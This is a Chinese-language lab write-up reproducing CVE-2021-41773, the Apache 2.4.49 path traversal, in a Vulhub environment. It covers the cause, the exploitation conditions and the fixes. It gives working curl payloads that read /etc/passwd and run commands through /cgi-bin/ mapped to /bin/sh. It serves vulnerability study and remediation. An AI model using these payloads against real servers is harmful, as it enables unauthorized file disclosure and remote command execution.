





# CVE-2021-41773 - Apache HTTP Server 2.4.49 路径遍历漏洞复现

## 1. 漏洞概述

CVE-2021-41773 是 **Apache HTTP Server 2.4.49** 中引入的路径遍历与文件泄露漏洞。

该漏洞源于 Apache 在 2.4.49 版本中对**路径规范化逻辑的变更存在缺陷**，攻击者可以通过**构造特殊 URL**，使请求路径映射到 Alias 类目录配置之外的文件。若目标文件没有被默认的 `Require all denied` 等访问控制策略保护，请求可能成功；如果 **CGI 脚本也被启用**，在特定配置下**还可能进一步造成远程命令执行**。

该漏洞只影响 Apache HTTP Server 2.4.49。Apache 后续在 2.4.50 中修复了 CVE-2021-41773，但该修复并不完整，随后又产生了 CVE-2021-42013，最终应升级到 2.4.51 或更高版本。

---

## 2. 影响条件

该漏洞成立需要同时满足以下条件：

| 条件     | 说明                                          |
| ------ | ------------------------------------------- |
| 版本条件   | Apache HTTP Server 版本为 2.4.49               |
| 路径处理条件 | 受影响版本中的路径规范化逻辑存在缺陷                          |
| 访问控制条件 | 目录外文件没有被 `Require all denied` 等策略保护         |
| 目录入口条件 | 需要存在可访问的 Alias 类目录，例如 Vulhub 环境中的 `/icons/` |
| RCE 条件 | 需要额外启用 CGI 或 CGID，并且对应路径可作为 CGI 处理          |

该漏洞不是“任意 Apache 都能直接打”。默认安全配置下，文档根目录外的文件通常应被拒绝访问。漏洞能否成功，关键取决于版本、Alias 类路径、目录访问控制和 CGI 配置。Apache 官方公告也明确指出，如果目录外文件未被默认访问控制保护，请求才可能成功；若 CGI 脚本启用，则可能导致远程代码执行。

---

## 3. 漏洞原理

正常情况下，Web 服务器会对 URL 路径进行规范化处理，消除 `../`、重复分隔符、编码变体等路径语义，避免请求逃逸出预期目录。

CVE-2021-41773 的问题在于 Apache 2.4.49 对路径规范化的变更处理不完整。攻击者可以使用编码后的点号绕过路径规范化逻辑，例如：

```
.%2e/
```

该片段在语义上等价于：

```
../
```

如果 URL 以一个可访问的 Alias 类目录开头，例如：

```
/icons/
```

再拼接编码后的目录回退序列，就可能让 Apache 将 URL 映射到预期目录之外的文件。

理解链路如下：

```
访问 /icons/
→ 命中 Apache 中已存在且可访问的 Alias 类目录
→ 使用 .%2e/ 构造目录回退
→ 路径规范化未正确拦截
→ 访问 Web 目录之外的系统文件
```

这类漏洞的核心不是简单的 `../`，而是 **URL 编码、路径规范化和目录访问控制之间出现了边界失效**。

---

## 4. Vulhub 环境启动

进入 Vulhub 对应目录：

```
cd vulhub/httpd/CVE-2021-41773
```

构建并启动环境：

```
docker compose builddocker compose up -d
```

环境启动后，浏览器访问：

```
http://127.0.0.1:8080
```

正常情况下可以看到 Apache 默认页面：

```
It works!
```

该步骤只用于确认 Apache 服务已启动。



---

## 5. 浏览器确认可访问目录

在浏览器中访问：

```
http://127.0.0.1:8080/icons/
```



该目录是后续复现中使用的入口路径。Vulhub 官方示例中强调 `/icons/` 必须是一个实际存在并且可访问的目录，因为漏洞触发依赖一个可被 Apache 正常映射的目录入口。

这里的验证目标不是读取敏感文件，而是确认：

```
Apache 服务正常/icons/ 路径存在该路径可被服务器处理
```

如果 `/icons/` 返回目录索引、图标资源或非 404 响应，都说明该入口具备继续验证的基础。

---

## 6. 使用 Burp 复现任意文件读取

浏览器直接访问穿越路径时，客户端、代理或中间层可能对 URL 做额外规范化处理。为了保留原始路径结构，漏洞触发部分使用 Burp Repeater 完成。

### 6.1 捕获正常访问

浏览器开启 Burp 代理后，访问：

```
http://127.0.0.1:8080/icons/
```

将该访问发送到 Repeater。

### 6.2 修改访问路径

用如下CURL命令来发送Payload（注意其中的`/icons/`必须是一个存在且可访问的目录）：

```
curl -v --path-as-is http://your-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

发送后，如果漏洞触发成功，响应正文中会出现 `/etc/passwd` 的内容。



```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```

该结果说明 Apache 将原本位于 `/icons/` 下的访问路径解析到了系统根目录下的 `/etc/passwd`。

### 6.3 结果判断

判断漏洞是否成功，不看状态码本身，而看响应内容是否出现目标文件特征。

| 现象                  | 含义                  |
| ------------------- | ------------------- |
| 返回 `root:x:0:0` 等内容 | 文件读取成功              |
| 返回 403              | 可能被访问控制拦截           |
| 返回 404              | 路径入口、目标文件或映射方式不符合预期 |
| 返回普通 HTML 页面        | 路径可能被规范化或未触发漏洞      |

该漏洞的重点是路径规范化绕过。`/icons/` 是可访问目录入口，后面的编码路径用于回退目录并访问系统文件。

---

## 7. CGI 条件下的命令执行验证

在启用 CGI 或 CGID 的情况下，该路径遍历漏洞可能进一步导致命令执行。NVD 和 Apache 官方公告均提到，如果 CGI 脚本启用，路径遍历可能允许远程代码执行。

先用浏览器确认 CGI 目录是否存在：

```
http://127.0.0.1:8080/cgi-bin/
```



然后在终端中执行：

```
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```

若验证成功，响应中会出现：



```
uid=...gid=...groups=...
```

该过程的本质是：

```
/cgi-bin/ 作为 CGI 入口
→ 路径遍历映射到 /bin/sh
→ Apache 按 CGI 方式处理目标
→ POST Body 中的内容被 shell 读取执行
```

这一步是扩展验证，不是路径遍历的必要条件。文件读取只依赖路径遍历和访问控制缺陷；命令执行还依赖 CGI/CGID 是否启用以及目录是否按 CGI 方式处理。

---

## 8. 漏洞修复

修复方式优先级如下：

### 8.1 升级 Apache 版本

不要停留在 2.4.50。因为 2.4.50 对 CVE-2021-41773 的修复不完整，后续产生了 CVE-2021-42013。生产环境应升级到 2.4.51 或更高版本。Apache 官方公告中也说明，CVE-2021-42013 是 CVE-2021-41773 的不完整修复导致的后续问题，并在 2.4.51 中修复。

### 8.2 加强目录访问控制

确保文档根目录之外的文件默认禁止访问：

```
<Directory />    Require all denied</Directory>
```

仅对确实需要公开的目录单独授权：

```
<Directory "/usr/local/apache2/htdocs">    Require all granted</Directory>
```

不要为了方便直接配置：

```
<Directory />    Require all granted</Directory>
```

这会扩大路径遍历漏洞的影响面。

### 8.3 限制 CGI 暴露面

若业务不需要 CGI，应禁用 CGI/CGID。  
若必须启用，应限制可执行目录、执行权限和访问来源，避免路径遍历类漏洞被扩大为命令执行。

## 9. 复现总结

CVE-2021-41773 的核心是 Apache HTTP Server 2.4.49 中路径规范化逻辑存在缺陷，攻击者可借助编码后的目录回退序列，使 URL 映射到 Alias 类目录之外的文件。漏洞成功利用依赖可访问目录入口和目录外文件访问控制缺陷；在 CGI 启用时，影响可能从任意文件读取扩大到远程命令执行。


